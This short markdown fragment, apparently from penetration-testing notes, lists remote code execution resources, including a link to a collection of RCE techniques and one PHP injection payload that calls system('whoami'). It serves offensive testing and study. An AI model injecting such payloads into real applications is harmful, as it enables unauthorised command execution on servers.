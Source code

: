 # Remote code execution

## How to achieve RCE in known CMSes, frameworks and related

- https://github.com/p0dalirius/Awesome-RCE-techniques

## PHP

- `${@print(system("whoami"))}`
